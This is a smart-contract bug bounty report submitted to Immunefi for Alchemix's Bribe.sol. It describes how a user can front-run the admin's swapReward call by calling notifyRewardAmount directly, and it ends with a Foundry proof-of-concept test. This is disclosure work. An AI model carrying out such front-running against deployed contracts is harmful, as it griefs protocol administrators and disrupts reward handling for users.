 
# malicious user can front run any call to the `swapReward` and cause reverting admin calls and prevent setting the correct index to the newToken

Submitted on Wed May 01 2024 21:23:54 GMT-0400 (Atlantic Standard Time) by @zeroK for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30613

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
the function `voter.sol#swapReward` is meant to be used to update the reward token from old one to new one, this function is only callable by the admin and it make calls to the `Bribe.sol#swapOutRewardToken` which it updates the `isReward` from false to true for the newToken, and it set the old token index to the newToken address, however an attacker can front run the owner and cause Griefing plus preventing from setting the correct index to the newToken address, this issue can make loss to the owner by front run his/her TX and cause loss of gas + making the rewards length longer each time the attacker front run the owner call and preventing setting the correct index to the new token that the owner decide to set.

## Vulnerability Details

to call the swapReward function the owner first need to call the whitelist function to add the new token to whitelist, if not then the call to the swapReward is impossible because of the checks for the whitelist token
the function `swapReward` make call to the swapOutRewardToken with the below inputs:

```solidity 
 function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
        require(msg.sender == admin, "only admin can swap reward tokens");
        IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
    }
```
as it shown the tokenIndex is set to update the token index when call made to the `swapOutRewardToken`:

```solidity 
 function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
        require(msg.sender == voter, "Only voter can execute");
        require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
        require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

        // Check that the newToken does not already exist in the rewards array
        for (uint256 i = 0; i < rewards.length; i++) {
            require(rewards[i] != newToken, "New token already exists");
        }

        isReward[oldToken] = false;
        isReward[newToken] = true;

        // Since we've now ensured the new token doesn't exist, we can safely update
        rewards[oldTokenIndex] = newToken; // set the old index to the new token
```
however, malicious user can front run the owner call to the `swapReward ` the moment that he/she realized that a new token added to the whitelist lists by calling the `notifyRewardAmount` directly from the bribe.sol contract, while this contract is external and allow anyone call it directly the malicious  user can  call it with the new whitelisted token address before the admin call and the notifyRewardAmount function will not set the correct index to the new token when call made to the `_addRewardToken`(it did not set index to it) and increase the `rewards` list :

```solidity 

function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");
        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token); // if the old index is 5 then we give the new token index 6 not 5, push increase the index
        }
    }
```
according to our calculation the amount of gas that the admin will loss according to this case is more than the amount that the malicious user need to front run the admin with tiny `amount.

## Impact Details
malicious user can front run admin call to the `swapReward` and cause loss of gas  to the admin + setting incorrect index to the new token that get added

## Recommend
we recommend to prevent any direct call to the `notifyRewardAmount` function in the bribe.sol and adding `require(msg.sender == voter)`  to prevent this case which leads to Griefing.

        
## Proof of concept
## Proof of Concept

run the test file below in src/test

```solidity 
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

import "lib/forge-std/src/console2.sol";
import "lib/forge-std/src/Test.sol";
import "./utils/DSTestPlus.sol";

import "src/VotingEscrow.sol";
import "src/AlchemixGovernor.sol";
import "src/FluxToken.sol";
import "src/Voter.sol";
import "src/Minter.sol";
import "src/RewardPoolManager.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/Bribe.sol";
import "src/gauges/CurveGauge.sol";
import "src/gauges/PassthroughGauge.sol";
import "src/governance/TimelockExecutor.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";

import "src/interfaces/aura/MockCurveGaugeFactory.sol";
import "src/interfaces/IAlchemixToken.sol";
import "src/interfaces/IMinter.sol";
import "src/interfaces/balancer/WeightedPool2TokensFactory.sol";
import "src/interfaces/balancer/WeightedPoolUserData.sol";
import "src/interfaces/balancer/IVault.sol";
import "src/interfaces/IWETH9.sol";
import "src/gauges/StakingRewards.sol";
import "src/interfaces/aura/IRewardPool4626.sol";

contract testing is Test, BaseTest {
    uint256 public fakeToken;
    address public alice;

    IERC20 public usdd = IERC20(0x0C10bF8FcB7Bf5412187A595ab97a3609160b5c6);
    function setUp() public {
        setupContracts(block.timestamp);

        alice = vm.addr(1);
        deal(address(usdd), address(alice), 1 ether);
    }

    function test_attack() public {
        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.startPrank(address(timelockExecutor));

        voter.whitelist(address(usdd));
        vm.startPrank(alice);
        usdd.approve(address(voter), type(uint256).max);
        usdd.approve(address(bribeAddress), type(uint256).max);

        IBribe(bribeAddress).notifyRewardAmount(address(usdd), 1000000000000000000);

        hevm.startPrank(address(timelockExecutor));
        // vm.expectRevert();
        voter.swapReward(address(sushiGauge), 0, dai, address(usdd));
    }
}


```